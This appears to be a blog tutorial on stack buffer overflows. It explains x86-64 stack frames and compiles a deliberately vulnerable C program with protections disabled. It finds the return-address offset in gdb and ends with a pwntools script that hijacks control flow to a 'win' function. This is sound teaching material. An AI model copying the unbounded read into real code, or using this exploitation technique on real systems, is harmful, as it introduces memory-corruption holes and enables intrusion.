

+++
date = '2025-10-24T14:11:56+05:30'
draft = false
title = 'Buffer Overflows'
+++

# The stack


The stack is a region of memory in the program that keeps track of some important data, each function that is called creates a **stack frame** that contains:

- local variables 
- the saved base pointer (RBP)
- the saved return address pointer (RIP)

The stack is used to abstract away control flow which is similar to a `jmp` instruction, however unlike a jump instruction when a function is called it needs to know where to return. 


This is why the RBP and the RIP are pushed onto the stack.


Once the function is done, the program looks at the saved RIP on the stack and jumps back to the function that originally called it. (The RBP is used to restore the stack back to its original state, kinda)


[source](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)

The stack grows downwards in memory towards lower address, in the above diagram the **green part represents the main function** and the **blue part represents the function that was called by main**. Notice that the return address resides on the stack along with the variables passed to the function.

Now consider the following scenario:

```
void vuln(){
  char buf[64];
  read(0,buf,128);
}
```

This function tries to read 128 bytes into a 64 byte buffer, C does not have any kinds of check for buffer sizes and this is perfectly valid C code for the compiler. 

In this scenario, the stack allocates 64 bytes for the buffer, but wait the buffer is being written with 128 bytes!
This is a classic buffer overflow that allows you to control the RIP of the program.

# A look at the assembly

We will compile the following C code and look at its disassembly in gdb.

```
#include <stdio.h>
#include <unistd.h>

void win(){
  puts("How did you get here? you win!");
}

void vuln(){
  char buf[64];
  read(0,buf,128);
}

int main(){
  vuln();
}
```

Compile with the following flags in gcc:
```
gcc vuln.c -o vuln -fno-stack-protector -no-pie -z execstack
```

- `-fno-stack-protector` disables the stack canary, which is a mitigation designed to make classic buffer overflows harder, we wont have to worry about that for now.
- `-no-pie`(Position Independant Executable) makes the program load into random memory addresses on each run, we will disable that
- `-z execstack` makes the stack executable, which means that code written to the stack(this could be user input) will be executed.

I have disabled almost every modern protection, but we will eventually learn how to bypass them.

# GDB time
Pro tip:
add this to your `.gdbinit` file in your home directory to save your eyes from looking at horrible AT&T syntax.
```
set disassembly-flavor intel
```


To load the file in gdb 
```
gdb <filename>
```


Once you're in gdb, you can use the `disassemble`(or `disass` for short) to disassemble a function and look at its assembly code.

```
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x000000000040114c <+0>:     push   rbp
   0x000000000040114d <+1>:     mov    rbp,rsp
   0x0000000000401150 <+4>:     sub    rsp,0x40
   0x0000000000401154 <+8>:     lea    rax,[rbp-0x40]
   0x0000000000401158 <+12>:    mov    edx,0x80
   0x000000000040115d <+17>:    mov    rsi,rax
   0x0000000000401160 <+20>:    mov    edi,0x0
   0x0000000000401165 <+25>:    call   0x401040 <read@plt>
   0x000000000040116a <+30>:    nop
   0x000000000040116b <+31>:    leave
   0x000000000040116c <+32>:    ret
End of assembler dump.
```

Let's walk through each instruction, starting with the function prologue and epilogue.

Prologue (setting up the stack)

- `push rbp` - pushes the current base pointer onto the stack
- `mov rbp,rsp` - moves the stack pointer into the base pointer
- `sub rsp,0x40` - make 0x40 bytes of space on the stack for local variables(in this case our buffer)

Epilogue

- `leave` - equivalent to `mov rsp,rbp; pop rbp` , This is the exact opposite of what was done in the prologue.
- `ret` - jump to the address at the top of the stack(which will be our main address that was pushed when it called vuln)


Lets first stop the program once it reaches `read`, give it some input and see the stack in gdb.

```
gef➤  break *vuln+25
Breakpoint 1 at 0x401165
```

This will stop the program at the call to read. To run the program, `run` or `r`

```
gef➤  r
Starting program: /tmp/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Breakpoint 1, 0x0000000000401165 in vuln ()
```

The breakpoint was triggered. Now lets go one instruction after this with `next instruction` or `ni` for short.

The program seems to hang, that's because its waiting for input,type something like `aaaaaaa`

```
gef➤  ni
aaaaaaaa0x000000000040116a in vuln ()
```

Now to examine the stack:
```
x/20gx $rsp
```

This roughly translates to examine 20 (x/20) giant words (gx, 8 bytes) at rsp.

```
gef➤  x/20gx $rsp
0x7fffffffe5a0: 0x6161616161616161      0x0000000000000000
0x7fffffffe5b0: 0x0000000000000000      0x0000000000000000
0x7fffffffe5c0: 0x0000000000000000      0x0000000000000000
0x7fffffffe5d0: 0x0000000000000000      0x0000000000000000
0x7fffffffe5e0: 0x00007fffffffe5f0      0x0000000000401176
0x7fffffffe5f0: 0x00007fffffffe690      0x00007ffff7c27675
0x7fffffffe600: 0x00007ffff7fc2000      0x00007fffffffe718
0x7fffffffe610: 0x00000001ffffe650      0x000000000040116d
0x7fffffffe620: 0x0000000000000000      0x49393e1f467b5edd
0x7fffffffe630: 0x00007fffffffe718      0x0000000000000001
```

`x6161616161616161` is our input in hex!

Note that the stack is always at a high address, typically `0x7fffff...`. We can also see some stack addresses in the stack. The only address closest that is not a stack address is `401176`.

Examining that address as an instruction:

```
gef➤  x/i 0x0000000000401176
   0x401176 <main+9>:   mov    eax,0x0
```

This is the instruction that is right after the call to vuln, in other words... our return address. The address right before that(0x00007fffffffe5f0) is the saved RBP.

Notice that the stack frame cannot possibly hold 128 bytes of data and that we can overwrite the return address.

Our input starts at `0x7fffffffe5a0` and our saved return address is at `0x7fffffffe5e8`. With some simple maths (I hope), we can deduce that we can overwrite the return address after sending 72 bytes of data.

```
>>> 0x7fffffffe5e8 - 0x7fffffffe5a0
72
```

So we need to send 72 bytes of random data, of course we send "A"*72 and then... Wait what do we send after that? Now that we have control over the instruction pointer, we can make it point to the win function. 

We can get its address by:
```
gef➤  info functions win
All functions matching regular expression "win":

Non-debugging symbols:
0x0000000000401136  win
```

This only works because we disabled PIE earlier.

So our final payload would be 
```
'A'*72 + 0x401136
```

But how do we send the address, we can't exactly type it out...

I would recommend using pwntools but there are other ways to do it:

```
from pwn import *

p = process("./vuln")
payload = b"A"*72 + p64(0x401136)
p.send(payload)
p.interactive()
```

The final result:
```
> python3 exploit.py
[+] Starting local process './vuln': pid 16480
[*] Switching to interactive mode
How did you get here? you win!
[*] Got EOF while reading in interactive
```
